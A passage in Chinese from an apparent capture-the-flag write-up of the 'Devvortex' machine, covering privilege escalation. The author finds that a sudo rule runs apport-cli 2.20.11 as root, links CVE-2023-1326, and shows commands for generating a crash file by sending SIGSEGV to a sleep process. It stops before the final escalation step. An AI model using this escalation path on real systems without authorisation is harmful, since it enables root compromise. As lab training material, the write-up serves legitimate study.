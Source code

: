 
## Privilege Escalation

有密码先直接看看 `sudo -l`，有一条命令，很有可能这就是突破口：
```bash
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

可以查看版本：
```bash
logan@devvortex:~$ /usr/bin/apport-cli -v
2.20.11
```

实践发现谷歌比 `searchsploit` 好用多了啊……“apport-cli 2.20.11 exploit”搜一波发现下面文章：
> <https://nvd.nist.gov/vuln/detail/CVE-2023-1326>  
> <https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb>

### PoC (CVE-2023-1326)

github提交中写了PoC，帮大忙了。那么问题就是如何生成crash文件呢？

查看[apport的文档](https://github.com/canonical/apport)可发现，当收到“SIGSEGV”等信号时可

> It currently supports  
> - Crashes from standard signals (SIGSEGV, SIGILL, etc.) through the kernel coredump handler (in piping mode)

ChatGPT询问如何发送“SIGSEGV”信号后，得知可以kill一个进程。一个简单的方式就是后台运行一个sleep命令，然后对其发送信号：
```bash
logan@devvortex:~$ sleep 1000 &
[1] 9073
logan@devvortex:~$ ps
    PID TTY          TIME CMD
   1816 pts/2    00:00:00 bash
   9073 pts/2    00:00:00 sleep
   9100 pts/2    00:00:00 ps
logan@devvortex:~$ kill -11 9073
logan@devvortex:~$ ps
    PID TTY          TIME CMD
   1816 pts/2    00:00:00 bash
   9564 pts/2    00:00:00 ps
[1]+  Segmentation fault      (core dumped) sleep 1000
logan@devvortex:~$ ls /var/crash/
_usr_bin_sleep.1000.crash
```

顺便看一眼kill的各种信号：
```bash
logan@devvortex:~$ kill -l
 1) SIGHUP       2) SIGINT       3) SIGQUIT      4) SIGILL       5) SIGTRAP
 6) SIGABRT      7) SIGBUS       8) SIGFPE       9) SIGKILL     10) SIGUSR1
11) SIGSEGV     12) SIGUSR2     13) SIGPIPE     14) SIGALRM     15) SIGTERM
16) SIGSTKFLT   17) SIGCHLD     18) SIGCONT     19) SIGSTOP     20) SIGTSTP
21) SIGTTIN     22) SIGTTOU     23) SIGURG      24) SIGXCPU     25) SIGXFSZ
26) SIGVTALRM   27) SIGPROF     28) SIGWINCH    29) SIGIO       30) SIGPWR
31) SIGSYS      34) SIGRTMIN    35) SIGRTMIN+1  36) SIGRTMIN+2  37) SIGRTMIN+3
38) SIGRTMIN+4  39) SIGRTMIN+5  40) SIGRTMIN+6  41) SIGRTMIN+7  42) SIGRTMIN+8
43) SIGRTMIN+9  44) SIGRTMIN+10 45) SIGRTMIN+11 46) SIGRTMIN+12 47) SIGRTMIN+13
48) SIGRTMIN+14 49) SIGRTMIN+15 50) SIGRTMAX-14 51) SIGRTMAX-13 52) SIGRTMAX-12
53) SIGRTMAX-11 54) SIGRTMAX-10 55) SIGRTMAX-9  56) SIGRTMAX-8  57) SIGRTMAX-7
```